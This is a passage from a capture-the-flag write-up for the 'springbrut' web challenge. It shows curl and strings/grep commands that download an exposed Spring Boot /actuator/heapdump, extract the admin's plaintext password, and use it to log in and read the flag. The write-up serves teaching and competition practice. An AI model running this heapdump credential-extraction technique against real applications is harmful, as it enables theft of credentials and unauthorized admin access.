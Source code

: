 Therefore, if the admin's password can be leaked by URL path /heapdump, we can login as admin and get the flag.

## Solution

```console
$ curl -s https://springbrut.snakectf.org/actuator/heapdump -o heapdump.bin

$ strings heapdump.bin | grep 'username=admin&password='
username=admin&password=DGcZvIYwahxgqIBJyOw7Tk2WVwLKFZ4b&_csrf=8T8e7zlBZQX6f(snip)
(snip)
```

Got admin's password `DGcZvIYwahxgqIBJyOw7Tk2WVwLKFZ4b`.
Login as admin with `admin:DGcZvIYwahxgqIBJyOw7Tk2WVwLKFZ4b` credential, then accessing URL path /auth/flag.

![flag](img/springbrut_flag.png)
